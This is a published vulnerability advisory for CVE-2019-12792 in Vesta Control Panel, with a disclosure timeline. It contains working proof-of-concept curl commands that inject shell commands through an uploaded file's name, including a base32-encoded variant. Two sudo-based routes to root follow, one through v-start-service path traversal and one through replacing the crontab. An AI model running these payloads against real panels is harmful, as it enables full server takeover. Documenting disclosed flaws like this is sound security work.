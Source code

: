 ```yaml
---
title: '[CVE-2019-12792] Vesta Control Panel 0.9.8-24 — Privilege escalation in the upload handler'
description: Privilege escalation to root can be achieved by a regular user via the file upload handler exploiting an insufficient shell escaping mechanism.
tags: [Vesta Control Panel, Privilege escalation, upload]
advisory:
  discovered: 2019-03-15
  product: '[Vesta Control Panel](https://vestacp.com/)'
  versions:
    - 0.9.8-24
  cve: CVE-2019-12792
---
```


## Abstract

The insufficient shell escaping mechanism used during the invocation of the `exec` PHP function allows a registered user to run arbitrary system commands as the `admin` user, to whom VestaCP grants full access. A malicious registered user can thus escalate its privileges up to `root` by submitting a POST request to the web application.

[HestiaCP](https://www.hestiacp.com/) (an actively maintained fork of VestaCP) version 1.0.4 is also vulnerable but a fix has been promptly deployed in version 1.0.5.

## Details

The PHP script reachable at `/upload/UploadHandler.php` naively uses `'...'` to shell-escape the user input (instead of using `escapeshellarg`):

```php
exec (VESTA_CMD . "v-copy-fs-file ". USERNAME ." {$uploaded_file} '{$file_path}'", $output, $return_var);
```

The `$file_path` variable is controlled by the user as it corresponds to the name of the file being uploaded. By crafting a proper file name it is possible to escape the single quotes and *blindly* run additional commands as the `admin` user (the one that runs the web server in VestaCP).

For example, the following `curl` invocation uses the `sleep` command to prove the RCE success:

```console
$ PHPSESSID=... # grab it from an authenticated regular user session
$ time curl -sk -o /dev/null https://target.com:8083/upload/ \
    -b "PHPSESSID=$PHPSESSID" \
    -F "files=@/dev/null;filename=\"';sleep 5;#\""

real    0m5.097s
user    0m0.032s
sys     0m0.004s
```

Since the file name is filtered through the `basename` PHP function, the payload cannot contain `/`. Follows a more general solution that allows to execute arbitrary commands by using the Base32 encoding:

```console
$ COMMAND='[ -w ~admin/.bashrc ] && sleep 5'
$ PAYLOAD="$(echo "$COMMAND" | base32 -w0)"
$ time curl -sk -o /dev/null https://target.com:8083/upload/ \
    -b "PHPSESSID=$PHPSESSID" \
    -F "files=@/dev/null;filename=\"';echo $PAYLOAD | base32 -d | sh;#\""

real    0m5.087s
user    0m0.028s
sys     0m0.000s
```

The above also proves that is possible to write files in the `admin` home directory.

### From admin to root access

The `admin` user ultimately has full access to the target machine, yet VestaCP seems to make it hard for it to run superuser commands. For completeness, follows two possible ways to accomplish that.

#### Misusing the `v-start-service` command

The `service` system command provides a way to execute arbitrary executables and not only init scripts[^service]. Since `v-start-service` is a merely wrapper around `service`, it is possible to exploit it to run arbitrary executables as `root`.

Set the `COMMAND` variable as follows:

```console
$ COMMAND='
    echo "id >/usr/local/vesta/web/proof" >/tmp/x
    chmod +x /tmp/x
    sudo /usr/local/vesta/bin/v-start-service ../../tmp/x'
```

Run the remaining commands as above, then check that the proof file is created in the web server root:

```console
$ curl -k https://target.com:8083/proof
uid=0(root) gid=0(root) groups=0(root)
```

[^service]: See the [GTFOBins entry](https://gtfobins.github.io/gtfobins/service/).

#### Using cron

One simple way for the `admin` user to legitimately execute `root` commands is to replace the `/etc/crontab` file and restart the cron daemon using the `v-change-sys-service-config` VestaCP utility. Set the `COMMAND` variable as follows:

```console
$ COMMAND='
    echo "* * * * * root id >/usr/local/vesta/web/proof" >/tmp/x
    sudo /usr/local/vesta/bin/v-change-sys-service-config /tmp/x cron yes'
```

Run the remaining commands as above, then after one minute check that the proof file is created in the web server root:

```console
$ curl -k https://target.com:8083/proof
uid=0(root) gid=0(root) groups=0(root)
```

## Other instances of similar vulnerabilities

Several other instances of the same or similar problems have been found in the VestaCP source code. The following list[^git-tree] is a best-effort attempt to enumerate such instances, they are not tested and often are not exploitable in practice or not interesting since only the `admin` user can reach the code, but should nevertheless be fixed[^fixed]:

```php
// /usr/local/vesta/web/edit/mail/index.php:75
exec (VESTA_CMD."v-list-mail-account-autoreply ".$user." '".$v_domain."' '".$v_account."' json", $output, $return_var);

// /usr/local/vesta/web/edit/mail/index.php:231
exec (VESTA_CMD."v-delete-mail-account-alias ".$v_username." ".$v_domain." ".$v_account." '".$alias."'", $output, $return_var);

// /usr/local/vesta/web/edit/mail/index.php:257
exec (VESTA_CMD."v-delete-mail-account-forward ".$v_username." ".$v_domain." ".$v_account." '".$forward."'", $output, $return_var);

// /usr/local/vesta/web/edit/server/index.php:342
exec (VESTA_CMD."v-add-backup-host '". $v_backup_type ."' '". $v_backup_host ."' '". $v_backup_username ."' '". $v_backup_password ."' '". $v_backup_bpath ."'", $output, $return_var);

// /usr/local/vesta/web/edit/server/index.php:359
exec (VESTA_CMD."v-delete-backup-host '". $v_backup_type ."'", $output, $return_var);

// /usr/local/vesta/web/edit/server/index.php:367
exec (VESTA_CMD."v-add-backup-host '". $v_backup_type ."' '". $v_backup_host ."' '". $v_backup_username ."' '". $v_backup_password ."' '". $v_backup_bpath ."'", $output, $return_var);

// /usr/local/vesta/web/edit/server/index.php:389
exec (VESTA_CMD."v-add-backup-host '". $v_backup_type ."' '". $v_backup_host ."' '". $v_backup_username ."' '". $v_backup_password ."' '". $v_backup_bpath ."'", $output, $return_var);

// /usr/local/vesta/web/edit/server/index.php:406
exec (VESTA_CMD."v-delete-backup-host '". $v_backup_type ."'", $output, $return_var);

// /usr/local/vesta/web/edit/web/index.php:39
exec (VESTA_CMD."v-list-web-domain-ssl ".$user." '".$v_domain."' json", $output, $return_var);

// /usr/local/vesta/web/edit/web/index.php:142
exec (VESTA_CMD."v-list-dns-domain ".$v_username." '".$v_alias."' json", $output, $return_var);

// /usr/local/vesta/web/edit/web/index.php:145
exec (VESTA_CMD."v-change-dns-domain-ip ".$v_username." '".$v_alias."' ".$v_ip, $output, $return_var);

// /usr/local/vesta/web/edit/web/index.php:176
exec (VESTA_CMD."v-delete-web-domain-alias ".$v_username." ".$v_domain." '".$alias."' 'no'", $output, $return_var);

// /usr/local/vesta/web/edit/web/index.php:184
exec (VESTA_CMD."v-delete-dns-on-web-alias ".$v_username." ".$v_domain." '".$alias."' 'no'", $output, $return_var);

// /usr/local/vesta/web/edit/web/index.php:317
exec (VESTA_CMD."v-list-web-domain-ssl ".$user." '".$v_domain."' json", $output, $return_var);

// /usr/local/vesta/web/edit/web/index.php:370
exec (VESTA_CMD."v-add-letsencrypt-domain ".$user." ".$v_domain." '".$l_aliases."' 'no'", $output, $return_var);

// /usr/local/vesta/web/reset/mail/index.php:135
exec (VESTA_CMD."v-get-mail-account-value '".$v_user."' ".$v_domain." ".$v_account." 'md5'", $output, $return_var);

// /usr/local/vesta/web/reset/mail/index.php:154
exec (VESTA_CMD."v-change-mail-account-password '".$v_user."' ".$v_domain." ".$v_account." ".$v_new_password, $output, $return_var);
```

[^git-tree]: Locations refer to the Git commit [e1fb811caf73e5d8de49e3d2a0098a1afb0f647f](https://github.com/serghey-rodin/vesta/tree/e1fb811caf73e5d8de49e3d2a0098a1afb0f647f).

[^fixed]: Some of them (and others) are fixed in a subsequent [pull request](https://github.com/serghey-rodin/vesta/pull/1865/commits/0831a198b86a4760e83c0eaec78d84bab7098e6c).

## Timeline

2019-05-28
: Disclosed to the VestaCP team.

2019-06-10
: MITRE assigns [{{ page.advisory.cve }}](https://cve.mitre.org/cgi-bin/cvename.cgi?name={{ page.advisory.cve }}) to this vulnerability.

2019-07-29
: Final warning via [GitHub issue](https://github.com/serghey-rodin/vesta/issues/1921) since emails have been ignored.

2019-07-30
: The VestaCP author asks one more week to fix the issue and publish a new release.

2019-08-07
: The VestaCP team [fixes](https://github.com/serghey-rodin/vesta/commit/b17b4b205df0c01dada54d9684cfaa94b924064a) the vulnerability.
